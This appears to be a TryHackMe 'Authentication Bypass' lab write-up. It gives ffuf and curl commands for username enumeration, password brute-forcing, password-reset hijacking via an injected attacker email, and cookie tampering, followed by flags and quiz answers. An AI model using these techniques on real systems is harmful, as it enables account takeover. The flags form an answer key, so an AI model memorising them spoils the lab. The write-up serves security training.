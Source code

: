 # THM - Authentication Bypass


## Task 2

http://10.10.113.185/customers/signup


### Task 2.1

```shell
ffuf -w ../../Materials/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.185/customers/signup -mr "username already exists"

echo -e "admin\nrobert\nsimon\nsteve" >> valid_usernames.txt
```

> simon


### Task 2.2

> steve


### Task 2.3

> robert



## Task 3

http://10.10.113.185/customers/login


### Task 3.1

```shell
ffuf -w valid_usernames.txt:W1,../../Materials/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.185/customers/login -fc 200
```

> Steve/thunder


## Task 4

### Task 4.1

```shell
curl 'http://10.10.113.185/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

curl 'http://10.10.113.185/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

http://10.10.113.185/customers/signup

Username: dftf

```shell
curl 'http://10.10.113.185/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=dftf@customer.acmeitsupport.thm'
```

http://10.10.113.185/customers/tickets/3

http://10.10.113.185/customers/reset/2b569ead859164754e7dbe86dd0ad233

http://10.10.113.185/customers/tickets/1

> THM{AUTH_BYPASS_COMPLETE}


## Task 5

```shell
curl http://10.10.88.14/cookie-test

curl -H "Cookie: logged_in=true; admin=false" http://10.10.88.14/cookie-test
```


### Task 5.1

```shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.88.14/cookie-test
```

> THM{COOKIE_TAMPERING}


### Task 5.2

https://crackstation.net/

> 463729


### Task 5.3

```shell
echo "VEhNe0JBU0U2NF9FTkNPRElOR30=" | base64 -d
```

> THM{BASE64_ENCODING}


### Task 5.4

```shell
echo '{"id":1,"admin":true}' | base64
```

> eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==

